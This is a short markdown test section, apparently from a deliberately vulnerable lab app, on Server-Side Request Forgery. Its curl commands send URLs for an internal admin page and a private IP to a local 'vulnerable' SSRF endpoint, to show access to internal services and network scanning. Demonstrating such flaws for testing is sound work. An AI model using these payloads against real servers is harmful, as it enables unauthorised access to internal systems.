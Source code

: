 # Server-Side Request Forgery (SSRF)

## Test

### No Protection

```bash
curl -X POST http://localhost:5000/vulnerable/ssrf \
-H "Content-Type: application/json" \
-d '{"url": "http://localhost/admin"}'

# Internal service scanning
curl -X POST http://localhost:5000/vulnerable/ssrf \
-H "Content-Type: application/json" \
-d '{"url": "http://192.168.1.1"}'
```